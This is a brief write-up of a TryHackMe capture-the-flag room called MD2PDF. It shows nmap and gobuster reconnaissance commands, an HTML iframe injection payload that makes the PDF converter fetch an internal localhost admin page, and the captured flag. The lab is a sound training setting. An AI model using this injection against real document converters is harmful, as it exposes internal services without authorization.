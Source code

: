 ## **Room:** [MD2PDF](https://tryhackme.com/room/md2pdf)
---
For today's room I decided to do a simple 5-minute room and focus more on learning by watching the lectures from TryHackMe.
> **Prompt**
>
> > Hello Hacker!
> > TopTierConversions LTD is proud to announce its latest and greatest product launch: MD2PDF.
> > This easy-to-use utility converts markdown files to PDF and is totally secure! Right...?

Host: 10.201.79.96
First, I checked the open ports:
```bash
nmap -sS -sV 10.201.79.96
```
Result: 
```text
22
80
5000
```
Then I have looked up its directory:
```bash
gobuster dir -u 10.201.79.96 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Result: /admin, /convert
Both required permissions I didn't have.
Then I investigated the converter further and discovered that it executes HTML input. So I submitted the following to the admin page:
```nginx
<iframe src="http://localhost:5000/admin><iframe>
```
Eventually, I have found the flag of the day: flag{1f4a2b6ffeaf4707c43885d704eaee4b}